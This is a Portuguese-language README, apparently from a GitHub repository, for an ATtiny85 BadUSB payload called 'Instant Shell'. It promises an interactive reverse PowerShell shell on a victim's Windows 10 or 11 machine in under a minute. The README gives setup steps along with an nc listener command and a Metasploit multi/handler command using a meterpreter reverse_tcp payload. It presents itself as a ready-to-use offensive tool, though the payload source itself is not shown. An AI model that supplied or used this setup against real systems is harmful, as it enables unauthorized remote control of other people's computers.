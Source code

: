 # Instant Shell

### Descrição:

#### 1: Instant_Shell.ino:<br>

**Payload por:** [hum4nG0D](https://github.com/hum4nG0D/)

Obtenha um shell PowerShell interativo reverso em menos de um minuto e envie comandos remotamente para a máquina da vítima. Script interativo de shell PowerShell reverso por [Nikhil SamratAshok Mittal](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html)

**Instruções:**
Inicie um listener nc ou um listener metasploit. Certifique-se de alterar o IP e a porta. Ajuste o atraso do script conforme o necessário para o seu computador.

```
nc -lvnp 4444
```

```
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost <ENDEREÇO_IP>; set lport 4444; set ExitOnSession false; exploit -j"
```

**Testado em:**<br>
**Sistema Operacional**: Windows 10|11<br>
**Usuário**: Administrador/Usuário Normal<br>
**Hardware**: ATtiny85
